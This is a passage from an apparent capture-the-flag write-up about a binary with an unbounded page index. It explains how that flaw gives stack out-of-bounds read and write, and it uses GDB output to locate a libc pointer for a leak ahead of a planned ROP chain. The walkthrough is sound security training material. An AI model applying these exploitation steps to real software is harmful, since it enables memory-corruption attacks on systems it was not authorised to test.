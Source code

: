 ```c
    else
    {
      printf("[>] Input your note : ");
      read(0, s[i].buf, (unsigned int)nbytes);
      puts(s[i].name);
      puts(s[i].buf);
    }
  }
  return 0LL;
}
```


1. If our name is `CDDC`, we get access to an admin panel that allows us to read and write to some pages.
2. The program reads an index from the user to decide which page to `read` and `write` from. This index is **not bounded!!!**

Since we have an **out-of-bounds read** on the stack, we can trivially get a LIBC leak.

With the leak, we can write a ROP-chain with our **out-of-bounds write**.

### Getting a LIBC leak

In order to get a better understanding of where our OOB read/write is, we can use GDB to set a breakpoint at `0x4015A2` _(line 38 in the code block above)_.

There are `32` pages in total, so we can provide a page number of `32` to write to the 33rd page _(OOB write)_.

```
[>] Input your name : CDDC
[*] Welcome ADMIN!
[*] Select Mode.
[1] Read
[2] Edit
[>] 2
[>] Edit page : 32
```

In GDB, we will see this when we hit the breakpoint

```
 ► 0x4015a2    call   read@plt                      <read@plt>
        fd: 0x0 (/dev/pts/2)
        buf: 0x7fffffffd9f0 ◂— 0x1
        nbytes: 0x200
```

We now know that we are able to do OOB read/write at `0x7fffffffd9f0`. We can inspect the adjacent memory to see if there are any important pointers for us.

```
pwndbg> tele $rsi
00:0000│ rsi rbp 0x7fffffffd9f0 ◂— 0x1
01:0008│+008     0x7fffffffd9f8 —▸ 0x7ffff7dadd90 (__libc_start_call_main+128) ◂— mov edi, eax
```
